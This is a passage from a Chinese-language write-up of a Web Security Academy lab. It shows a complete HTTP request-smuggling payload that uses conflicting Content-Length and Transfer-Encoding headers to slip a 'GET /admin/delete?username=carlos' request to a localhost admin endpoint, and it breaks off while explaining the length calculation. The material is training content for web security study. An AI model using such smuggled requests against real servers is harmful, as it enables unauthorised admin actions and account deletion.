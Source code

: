 [![](assets/1698897445-4e6c3bdbdb6b79efc9621e4e74d582a5.png)](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191123155053.png)

得到了删除的 api，于是我们再利用 HTTP Smuggling 访问这个 `/admin/delete?username=carlos` 即可，构造如下数据包：

```plain
POST / HTTP/1.1
Host: ac211ffb1eae617180910ebc00fc00f4.web-security-academy.net
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: session=KmHiNQ45l7kqzLTPM6uBMpcgm8uesd5a
Content-Length: 63
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
```

[![](assets/1698897445-ed66ebc77580e60c5061e9126991babb.png)](https://blogpic-1254145318.cos.ap-shanghai.myqcloud.com/20191123155603.png)

这种攻击方式类似 HTTP SSRF，主要的点就是在控制 CL 数值上，比如说第一个数据包 CL 的值为 28，是这么计算的：
